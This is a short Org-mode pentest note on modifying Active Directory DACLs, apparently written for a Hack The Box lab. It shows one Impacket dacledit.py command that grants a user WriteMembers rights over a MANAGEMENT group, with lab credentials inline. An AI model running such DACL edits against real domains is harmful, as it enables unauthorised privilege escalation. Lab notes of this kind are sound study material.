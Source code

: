 :PROPERTIES:
:ID:       202d38a3-5c3d-439f-a1e0-b91c409f15ff
:END:
#+title: Pentest - Active Directory - DACL
#+hugo_base_dir:../

* Modifying DACLs
Use Impacket:
#+begin_src shell -n
python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
#+end_src

(or ~impacket-dacledit~).
